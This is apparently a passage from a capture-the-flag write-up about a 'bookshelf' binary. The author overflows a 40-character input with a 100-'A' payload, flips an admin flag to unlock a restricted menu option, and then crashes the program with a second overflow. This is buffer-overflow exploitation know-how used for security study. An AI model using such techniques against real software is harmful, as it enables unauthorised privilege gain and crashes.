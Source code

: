 ```
>> 1
Always great to see aspiring authors!
Is this book an audiobook? (y/N) >> y
Please write your book (40 chars max) >> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Book saved!

1) Write a book
2) Buy a book
3) Write a special book (ADMINS ONLY) (65)
4) Check out
 >> Invalid option!

1) Write a book
2) Buy a book
3) Write a special book (ADMINS ONLY) (65)
4) Check out
 >> Invalid option!

1) Write a book

...

1) Write a book
2) Buy a book
3) Write a special book (ADMINS ONLY) (65)
4) Check out
 >> Invalid option!

1) Write a book
2) Buy a book
3) Write a special book (ADMINS ONLY) (65)
4) Check out
 >> 
```

Oh interesting. You notice the difference?

Earlier there was `(0)` infront of option 3, whereas now it is `(65)`. Clearly some 'A' got overwritten there.

Nice. Let's try writing the special book again to see if it works

```
>> 3

You're an admin so I trust that you will be responsible with writing this very special book...
 >>
```

Yay! That worked, let's try a buffer overflow here as well with the same `A * 100` payload

```
>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Book saved!
zsh: segmentation fault (core dumped)  ./bookshelf
$ 
```
